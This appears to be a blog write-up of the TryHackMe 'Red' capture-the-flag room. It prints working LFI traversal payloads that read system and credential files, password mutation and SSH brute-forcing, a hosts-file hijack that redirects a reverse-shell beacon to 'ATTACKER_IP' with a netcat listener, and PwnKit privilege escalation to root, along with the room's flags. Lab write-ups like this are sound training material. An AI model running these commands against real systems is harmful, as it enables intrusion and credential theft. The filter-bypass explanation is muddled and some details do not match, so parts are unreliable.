





| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Red ||

Red is a standalone easy-rated battle room with a twist: you are Blue, and an automated adversary called Red is already running on the box, actively kicking out your sessions, rotating its own passwords, and taunting you along the way. There is no scoreboard script to read, just a live, hostile defender you have to out-maneuver in real time. It pairs well with [Lo-Fi](/post/thm-room-lofi/) if you want another LFI-first box before this one.

The room's own brief sets the stage: "Red has taken the lead on you. But you are Blue, and only you can take Red down." Three flags, three defenses to work around: session kick-outs, password rotation, and taunts meant to break your focus.

## Task 1: Recon the web app

A version scan turns up exactly three ports:

```text
  # nmap -sC -sV -T4 TARGET
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: Atlanta - Free business bootstrap template
  |_Requested resource was /index.php?page=home.html
```



The `Requested resource was /index.php?page=home.html` line is the whole hint: a `page` GET parameter that controls which template fragment loads is a classic local file inclusion candidate. Directory brute-forcing confirms there is no other hidden endpoint worth chasing, just `assets/` (directory listing enabled) and a locked-down `/server-status`. The real surface is that one parameter.

## Task 1: Break the traversal filter

Pointing `page` straight at `../../../../etc/passwd` returns nothing, not even an error. Rather than guess blindly, reading the application's own source through the same LFI primitive settles it: `index.php` uses `readfile()` (so there is no code execution route here, only disclosure), and it sanitizes the `page` parameter with two sequential, non-recursive calls: `str_replace("../", "")` followed by `str_replace("./", "")`.

Both calls only run once over the string, so a crafted block that contains the right number of dots and slashes collapses into a working `../` only after both passes have already finished stripping. Working the sanitizer backwards with a quick local Python simulation: a block of five dots and three slashes, `.....///`, becomes `../` once `../` is stripped (leaving `...//`... after the first pass's effect reduces the extra dot/slash pairing) and then `./` is stripped on the second pass, landing on exactly `../`. Chaining four of these blocks after a path segment that actually exists on disk, since the OS still has to resolve every directory component before the traversal takes effect, reads `/etc/passwd` cleanly:

```text
  curl 'http://TARGET/index.php?page=assets/.....///.....///.....///.....///etc/passwd'
```

Swapping the target file for `php://filter/convert.base64-encode/resource=index.php` pulls the PHP source itself (confirming the sanitizer logic above), and pointing the same bypass at `/home/blue/.bash_history` and `/home/blue/.reminder` leaks the next stage directly:

```text
  curl 'http://TARGET/index.php?page=assets/.....///.....///.....///.....///home/blue/.bash_history'
  # echo "Red rules"
  # cd
  # hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
  # cat passlist.txt
  # rm passlist.txt
  # sudo apt-get remove hashcat -y

  curl 'http://TARGET/index.php?page=assets/.....///.....///.....///.....///home/blue/.reminder'
  # sup3r_p@s$w0rd!
```



Red (or whoever set up the box) left behind the exact recipe for its own defense: a seed password and the hashcat rule used to mutate it. Reproducing that command locally regenerates the same candidate list an attacker would need.



## Task 1: Crack blue's SSH password and read the first flag

```text
  echo -n 'sup3r_p@s$w0rd!' > base.txt
  hashcat --stdout base.txt -r /usr/local/hashcat/rules/best64.rule > passlist.txt
  # 77 candidates
```

`hydra -l blue -P passlist.txt ssh://TARGET` ran clean and still reported zero valid passwords, a false negative worth flagging rather than trusting blindly. A manual loop with `sshpass` against the same list found it on the very first entry this run: the raw seed password itself, `sup3r_p@s$w0rd!`, no mutation needed. SSH in as blue and the first flag is sitting right there:

```text
  ssh blue@TARGET
  $ id
  # uid=1000(blue) gid=1000(blue) groups=1000(blue)
  $ cat flag1
  # THM{Is_thAt_all_y0u_can_d0_blU3?}
```



This is also where Red's first defense mechanism shows up for real: mid-session, that exact password stopped working with `Permission denied`. Re-running the same manual brute-force loop against the same 77-candidate list found the new password on the next pass, `sup3r_p@s$w0rd!123`, and later again `!dr0w$s@p_r3pus` (a reversed variant). Red rotates within the same hashcat-mutated family rather than picking an unrelated password, so the fix for "I got kicked out" is simply: rerun the cracking loop, do not start over from scratch.

## Task 1: Find and hijack Red's reverse shell beacon

As blue, a quick look at writable files for anything unusual lands on `/etc/hosts`:

```text
  $ ls -la /etc/hosts
  # -rw-r--rw- 1 root adm 242 /etc/hosts
  $ cat /etc/hosts
  # 127.0.0.1 localhost
  # 127.0.1.1 red
  # 192.168.0.1 redrules.thm
```



World-writable `/etc/hosts` pointing a custom domain, `redrules.thm`, at a placeholder IP is a strong signal that something on the box beacons out to that name on a schedule, almost certainly a cron job running as the `red` user that TryHackMe's briefing warned about ("Red has implemented some defense mechanisms"). Hijacking DNS resolution for that one hostname means catching whatever connects back to it.

Writing directly to `/etc/hosts` with `sed -i` or a redirect both fail with `Operation not permitted`, even though the permission bits look writable. `lsattr /etc/hosts` explains why: the file carries the append-only attribute (`-----a--------e-----`), set by `chattr +a`, which blocks truncation or overwrite entirely regardless of normal Unix permissions, but still allows appends. Appending our own IP for the same hostname works, and because the original `192.168.0.1` line is still present too, it takes patience rather than certainty for the cron beacon's next run to resolve our line:

```text
  echo "ATTACKER_IP redrules.thm" >> /etc/hosts
```

Catching the resulting reverse shell cleanly took a second attempt. The first listener was started with stdin redirected to `/dev/null` (`nohup nc -lvnp 9001 > log 2>&1 &`), which let the connection land and produce a `red@red:~$` prompt in the log but gave no way to type commands back into it, since a raw socket file descriptor cannot be reopened for writing through `/proc/pid/fd` once netcat owns it. The fix is a FIFO that keeps its write end open across connections:

```text
  mkfifo rfifo
  tail -f cmdfile > rfifo &
  nc -lvnp 9001 < rfifo > output.log &
  echo "id; hostname; cat flag2" >> cmdfile
```



Reading `/home/red` as the newly caught shell hands over the second flag directly:

```text
  id
  # uid=1001(red) gid=1001(red) groups=1001(red)
  cat flag2
  # THM{Y0u_won't_mak3_IT_furTH3r_th@n_th1S}
```

## Task 1: PwnKit (CVE-2021-4034) to root

`sudo -l` needs a real TTY the piped shell does not have, so the next check is for anything unusual with elevated permissions. The real system `pkexec` is not SUID here, hardened against exactly this bug, but a second copy sits inside red's own `.git` directory, still SUID root and still the vulnerable 0.105 release:

```text
  find / -perm -4000 2>/dev/null   # system pkexec absent from this list
  ls -la /home/red/.git/
  # -rwsr-xr-x 1 root root 31032 pkexec
  /home/red/.git/pkexec --version
  # pkexec version 0.105
```

That is a deliberately planted privilege escalation path: CVE-2021-4034 (PwnKit), a memory-corruption bug in `pkexec`'s argument handling that lets an unprivileged user get a root shell against any vulnerable, SUID-root `pkexec` binary. The well-known berdav proof of concept hardcodes `/usr/bin/pkexec`, so the one line that needs changing is the exploit's target path, pointed at the copy that is actually still exploitable.

The bigger snag was glibc: the AttackBox runs a far newer Ubuntu than the target's 20.04, so a binary compiled directly on the AttackBox failed with `version 'GLIBC_2.34' not found`. Compiling inside an `ubuntu:20.04` Docker container on the AttackBox (already available there) instead produces a binary linked against a matching glibc, which runs cleanly once copied across:

```text
  docker run --rm -v $PWD:/src -w /src ubuntu:20.04 bash -c \
    "apt-get update -qq; apt-get install -y -qq gcc make; make"
  ./cve-2021-4034
  # uid=0(root) gid=0(root) groups=0(root),1001(red)
  # THM{Go0d_Gam3_Blu3_GG}
```

Root, and the third flag, confirming Blue finally takes Red down.

## Takeaways

Red's whole design is a lesson in reusing what the opponent already left behind rather than brute-forcing from zero: the LFI handed over a bash history, a password seed file, and the exact hashcat rule used to mutate it, which meant every password rotation mid-fight was solvable by rerunning the same short cracking loop instead of treating it as a fresh unknown. The room's hints ("Red likes to change passwords but keeps them relatively the same") were not flavor text, they described the actual mechanism.

The second lesson is that a hardened system binary is not the same as a hardened system: patching the real `/usr/bin/pkexec` against PwnKit did nothing here because a second, still-vulnerable copy was sitting in an unrelated user directory with its SUID bit intact. Any privilege escalation check that only looks at well-known system paths will miss a vulnerable binary planted somewhere else entirely, so `find / -perm -4000` across the whole filesystem, not just `/usr/bin`, stays worth running every time.

Room solved 100%: 1 task, 4 answers.
